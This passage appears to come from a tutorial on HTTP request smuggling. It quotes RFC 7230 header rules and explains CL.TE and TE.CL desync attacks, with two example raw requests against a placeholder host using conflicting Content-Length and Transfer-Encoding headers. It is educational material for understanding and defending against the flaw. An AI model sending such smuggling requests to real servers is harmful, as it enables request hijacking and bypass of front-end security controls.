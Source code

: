 ## Header fields

The format of the header fields is regulated by [RFC 7230 3.2](https://tools.ietf.org/html/rfc7230#section-3.2):

> Each header field consists of a case-insensitive field name followed by a colon (":"), optional leading whitespace, the field value, and optional trailing whitespace.

So:

```
HEADER:HEADER_VALUE[\r\n] => OK
HEADER:[SPACE]HEADER_VALUE[\r\n] => OK
HEADER:[SPACE]HEADER_VALUE[SPACE][\r\n] => OK
HEADER[SPACE]:HEADER_VALUE[\r\n] => NOT OK
```

And [RFC 7230 3.2.4](https://tools.ietf.org/html/rfc7230#section-3.2.4) adds:

> No whitespace is allowed between the header field-name and colon. In the past, differences in the handling of such whitespace have led to security vulnerabilities in request routing and response handling. A server MUST reject any received request message that contains whitespace between a header field-name and colon with a response code of 400 (Bad Request). A proxy MUST remove any such whitespace from a response message before forwarding the message downstream.

## CL.TE vulnerabilities

The front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. We can perform a simple HTTP request smuggling attack as follows:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

The front-end server processes the `Content-Length` header and determines that the request body is 13 bytes long, up to the end of **SMUGGLED**. This request is forwarded on to the back-end server.

The back-end server processes the `Transfer-Encoding` header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. The following bytes, **SMUGGLED**, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

## TE.CL vulnerabilities

The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```
